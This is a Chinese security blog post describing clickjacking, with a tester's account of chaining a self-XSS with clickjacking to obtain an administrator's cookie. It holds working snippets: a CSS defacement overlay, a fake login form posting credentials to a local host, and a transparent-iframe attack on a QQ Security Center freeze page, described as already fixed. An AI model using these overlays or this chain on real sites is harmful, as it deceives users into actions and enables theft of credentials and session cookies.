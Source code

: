 ```yaml
---
layout: post
author: Vulkey_Chen
title: "鸡肋点搭配ClickJacking攻击-获取管理员权限"
date: 2017-12-20
permalink: /archives/2017-12-20/1
description: "笔者挖到了一个selfxss，在思考之后想起了ClickJacking，于是结合之..."
---
```


# 前言

有一段时间没做测试了，偶尔的时候也会去挖挖洞。本文章要写的东西是我利用`ClickJacking`拿下管理员权限的测试过程。但在说明过程之前，先带大家了解一下`ClickJacking`的**基本原理以及简单的漏洞挖掘**。

# ClickJacking

ClickJacking背景说明:

> ClickJacking（点击劫持）是由互联网安全专家罗伯特·汉森和耶利米·格劳斯曼在2008年首创的。
> ClickJacking是一种视觉欺骗攻击手段，在web端就是iframe嵌套一个透明不可见的页面，让用户在不知情(被欺骗)的情况下，点击攻击者想要欺骗用户点击的位置。

说道视觉欺骗，相信有`炫技`经验的朋友们一定会想到，自己一个后台拿不下Webshell权限的时候，而想要黑掉首页从而达到炫技，使用的是什么呢？没错一般使用CSS样式表来劫持首页以造成黑掉的假象~

```html
<table style="left: 0px; top: 0px; position: fixed;z-index: 5000;position:absolute;width:100%;height:300%;background-color: black;"><tbody><tr><td style="color:#FFFFFF;z-index: 6000;vertical-align:top;"><h1>hacked by key</h1></td></tr></tbody></table>
```

![CSS jacking](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2017-12-20/0x00.png)

除了可以炫技，CSS劫持可以做的东西也有很多：例如经典的form表单钓鱼攻击

```html
<table+style="left:+0px;+top:+0px;+position:+fixed;z-index:+5000;position:absolute;width:100%;background-color:white;"><tr><td><form action="http://192.168.0.109/login.php" method="post">账号：<input type="text" name="name"><br>密码：<input type="password" name="pwd"><br><input type="submit" value="登陆"></form><td></tr></table>
```

![CSS jacking](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2017-12-20/0x01.png)

这里就不对代码的意思进行解读了，可以看到CSS劫持达到的视觉欺骗攻击效果还是比较LOW的，因为这样的攻击手段偏被动式。而我要说的点击劫持其实也算是被动式，不过相对来说比较容易获得信任让被动式触发，这里只是单单对攻击手法谁的成功率比较高作为比较

前面背景介绍的时候说了，点击劫持攻击其实就是镶嵌一个iframe框架(**存在点击劫持漏洞的页面**)在页面上，然后再把其修改为透明的样式。这样的操作只是造成了视觉欺骗，还没达到欺骗点击的效果，所以就需要知道iframe框架其按钮的位置，然后在基于透明层模拟一个位置大小相同的按钮，发给用户让其点击~~

这里以QQ安全中心的一个点击劫持为例，作为一个QQ的资深用户应该知道QQ是有安全中心紧急冻结QQ服务的，只要登录自己的安全中心就可以冻结，**地址(漏洞地址，目前漏洞已经修复)**为：<https://aq.qq.com/cn2/message_center/wireless/wireless_seal_auth?source_id=2985>

![QQ Click Jacking](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2017-12-20/0x02.png)

一点击，你的QQ就被会冻结(当时不知道逗了多少人~)，那这样怎么利用呢？

1.建立iframe框架:

```html
<iframe id="frame" src="https://aq.qq.com/cn2/message_center/wireless/wireless_seal_auth?source_id=2985"></iframe>
```

2.建立iframe的CSS样式:

```css
#frame {
    border: 0px; /*边框属性为0*/
    height: 100%; /*框架高度100%*/
    width: 100%; /*框架宽度100%*/
    /*控制不透明度的属性，兼容各大浏览器*/
    filter: alpha(Opacity=0); /*提供给IE浏览器8之前的*/
    -moz-opacity: 0; /*提供给火狐浏览器的*/
    -webkit-opacity: 0; /*提供给webkit内核的*/
    -khtml-opacity: 0; /*提供给KHTML内核的*/
    -ms-filter: "progid:DXImageTransform.Microsoft.Alpha(Opacity=0)"; /*提供给IE8之后的*/
    opacity: 0;
    /*控制不透明度的属性，兼容各大浏览器*/
}
```

3.获取iframe框架引用的原页面的按钮位置和大小:

大小直接通过审查元素可以看得到:

![QQ Click Jacking](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2017-12-20/0x03.png)

现在要获取的就是按钮元素到浏览器顶部的距离，这里通过`id.offsetTop`有些时候是无法直接获取的:

> \>\>span_verify.offsetTop
> ←16

获取到的是16~很醉，所以使用如下的方法直接获取:

```javascript
document.getElementById('span_verify').getBoundingClientRect().top
```

![QQ Click Jacking](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2017-12-20/0x04.png)
4.建立按钮:

```html
<input type="button" class="button" value="Click" />
```

5.根据第三步骤获取到的建立按钮样式:

```css
.button {
    position: fixed;
    width: 100%;
    height: 42px;
    margin: 0 auto;
    left: 0;
    right: 0;
    display: block;
    top: 278px;
} 
```

6.散播，用户中招:
![QQ Click Jacking](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2017-12-20/0x05.png)
![QQ Click Jacking](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2017-12-20/0x06.png)

## 一次点击劫持攻击案例

说了这么多，在前几天的测试中我是如何拿到管理员权限呢？挖掘到一处self-xss，这里先说明下self-xss可以理解为只能攻击myself~

发现流程:

**发现输入框->秉着见框就X的原理插入XSS Payload->弹框->发现成功**

然而获取到的URL链接是`/?keyword=<script>alert(1)</script>`，但是不是xss，keyword的值显示在输入框内，需要你再点击`搜索标题按钮`才可以触发漏洞。

**形成的攻击思路->iframe嵌套漏洞URL链接->Click Jacking攻击页面构造->通过留言给管理员引诱触发**

![Click Jacking](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2017-12-20/0x07.png)

攻击页面构造流程其实耐心读到这里的朋友已经是非常明确步骤了:

**建立iframe框架->建立iframe框架CSS样式->获取按钮位置大小->建立按钮->建立按钮CSS样式->留言板留言外网攻击链接->获取管理员Cookie->Cookie伪造进入后台**

# 结尾

一次很有意思的实践，让自己满满的成就感，同时也完成了项目任务~
